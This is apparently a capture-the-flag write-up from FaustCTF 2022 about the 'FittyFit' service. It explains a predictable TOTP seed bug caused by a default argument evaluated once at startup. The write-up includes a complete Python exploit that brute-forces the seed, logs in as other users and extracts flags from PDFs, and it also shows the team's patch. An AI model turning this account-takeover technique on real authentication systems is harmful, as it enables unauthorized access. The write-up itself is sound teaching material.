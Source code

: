 The service stores flags in PDFs that are accessible by logging in to the checker's account. The vulnerability we exploited is in this function from `helper.py`, which is used to generate TOTP keys when registering:
```python
def generate_key(user, seed=time.time(), length=12):
    # Generate the TOTP key
    seed = str(int(seed))
    random.seed(user + seed)
    chars = string.ascii_letters + string.digits
    print(seed)
    return seed, "".join([random.choice(chars) for _ in range(length)])
```
Here the default argument `seed=time.time()` is only evaluated once, when the server starts. This means that `seed` is fixed for all users. We can register an account, brute force its seed (by counting down from the current UNIX timestamp) and compute TOTP keys for MrFlags. The flags are encoded as zlib streams in their PDFs.

Exploit:

```python
#!/usr/bin/env python3
import zlib
import random
import sys
import struct
import hmac
import hashlib
import base64
import string
import time
import requests
def totp(key, interval=60, past=0):
    # Generate the currect TOTP
    now=time.time() - past * 60
    try:
        key = key.encode()
        counter = struct.pack('>Q', int(now / interval))
        mac = hmac.new(key, counter, hashlib.sha256).digest()
        password = base64.b32encode(mac).decode().replace("=", "")
    except Exception as e:
        print(e)
        password = None
    return password
def generate_key(user, seed=time.time(), length=12):
    # Generate the TOTP key
    seed = str(int(seed))
    random.seed(user + seed)
    chars = string.ascii_letters + string.digits
    #print(seed)
    return seed, "".join([random.choice(chars) for _ in range(length)])
print(sys.argv[1])

SERVICE = 'FittyFit'

def extract_team_number(IP: str):
    r_pos = IP.find('::')
    l_pos = len('fd66:666')
    return IP[l_pos + 1:r_pos]


def get_attack_data(IP) -> [str]:
    r = requests.get(
        'https://2022.faustctf.net/competition/teams.json',
    )
    r.raise_for_status()
    data = r.json()
    #print(data)
    teams = data['teams']
    team_num = extract_team_number(IP)
    if int(team_num) not in teams:
        return []
    flag_ids = data['flag_ids']
    #print('flag_ids',[a for a in flag_ids])
    srv_dict = flag_ids.get(SERVICE, {})
    #print(srv_dict)
    return srv_dict.get(str(team_num), [])
url = 'http://['+sys.argv[1]+']:5001'
atk_dat = get_attack_data(sys.argv[1])
print(atk_dat)

uname = 'u'+str(random.getrandbits(64))
ses = requests.Session()
resp = ses.post(url+'/register',data={'name':uname})
key = resp.text.split('<b>')[1].split('</b')[0]
ct = int(time.time())
for t in range(ct,ct-36000,-1):
    seed,k = generate_key(uname,t)
    if key == k:
        kseed = seed
        break
_,key = generate_key(uname,kseed)
pwd = totp(key)
resp = ses.post(url+'/login',data={'name':uname,'pass':pwd})

for uname in atk_dat:
    print(kseed)
    _,key = generate_key(uname,kseed)
    pwd = totp(key)
    print('pwd',pwd)
    ses = requests.Session()
    resp = ses.post(url+'/login',data={'name':uname,'pass':pwd})
    print(resp.text)
    for l in resp.text.splitlines():
        if 'iframe' not in l: continue
        nft = l.split('"')[1]
        t = ses.get(url+nft).content
        if len(t) > 10000: continue
        for x in t.split(b'\nstream\n'):
            for y in x.split(b'\nendstream\n'):
                #print(y)
                try:
                    s = zlib.decompress(y)
                    print('FLAG', s, flush=True)
                except: pass
```

It's still possible to brute force the seed if time.time() is used correctly, but it would probably require too many requests to attack all teams. Our patch:

```python
def generate_key(user, seed=time.time(), length=12):
    # Generate the TOTP key
    seed = str(int(seed))
    random.seed("gaifjdaglega"+user + seed)
    chars = string.ascii_letters + string.digits
    print(seed)
    return seed, "".join([random.choice(chars) for _ in range(length)])
```


Initially our exploit obtained the list of users by using the /search endpoint. As more users were created, the list became too long and the exploit started timing out. Because of this we got very few flags for ticks 20-58.
